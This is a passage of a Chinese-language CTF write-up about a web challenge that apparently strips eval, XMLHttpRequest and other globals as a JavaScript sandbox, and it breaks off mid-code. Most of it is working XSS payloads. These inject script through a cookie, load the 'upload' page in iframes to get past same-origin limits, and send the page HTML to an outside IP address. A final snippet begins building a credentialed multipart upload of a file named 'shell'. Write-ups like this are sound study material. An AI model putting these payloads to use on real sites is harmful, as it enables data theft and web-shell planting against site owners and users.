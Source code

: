 现在问题来了，我们通过写js来读取upload的内容，这里我测试是返回405的，看小m的wp这里他是读到了内容。。我也不是很懂

这里遇到了新的难题，沙箱

```
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
```

反正我是没办法在沙箱情况下请求到upload的内容，这里我选择引入iframe标签，然后读取iframe的内容发送回来。

payload
```
<script>
document.cookie="username=aa<iframe id='test' src='upload'></iframe><script>window.location.href='http://115.28.78.16?id='+encodeURIComponent(document.getElementById('test').contentWindow.document.documentElement.outerHTML)<\/script>;domain=.government.vip; path=/;"

window.location.href="http://admin.government.vip:8000";
</script>
```

紧接着我发现，upload页面是没有沙箱的，我们通过向iframe中写入js执行就可以做我们想做的事情了

```
<script>
document.cookie="username=aa</iframe><script>var iframe = document.createElement('iframe')<\/script><script>iframe.id = 'ddog'<\/script><script>iframe.name = 'iframe1'<\/script><script>iframe.src='upload'<\/script><script>document.body.appendChild(iframe)<\/script><script>var content=\"<script>var xhr = new XMLHttpRequest()<\\/script><script>xhr.open('POST', 'upload', false)<\\/script><script>xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')<\\/script><script>xhr.send('file=a')<\\/script><script>var mess = xhr.response<\\/script><script>document.write(encodeURIComponent(mess))<\\/script>\"<\/script><script>setTimeout(\"iframe.contentWindow.document.write(content)\", 3000)<\/script><script>document.body.appendChild(iframe)<\/script><script>window.onload = setTimeout(\"window.location.href='http://115.28.78.16?id='+encodeURIComponent(document.getElementById('ddog').contentWindow.document.documentElement.outerHTML)\",3000)<\/script>;domain=.government.vip; path=/;"

window.location.href="http://admin.government.vip:8000";
</script>
```

这个应该是没别的办法了，有个关键的问题是同源策略，只有我们在iframe内引入了本域的页面，然后向upload发送xhr请求，才是有效的，不然会被同源策略拦截，接下来我们需要构造一个上传文件的js，这里可以直接去burp扒一个下来

```
<script>
function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "upload.php", false);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------12264101169922");
        xhr.withCredentials = true;
        var body = "-----------------------------12264101169922\r\n" + 
          "Content-Disposition: form-data; name=\"file\"; filename=\"shell\"\r\n" + 
          "Content-Type: text/plain\r\n" + 
          "\r\n" + 
```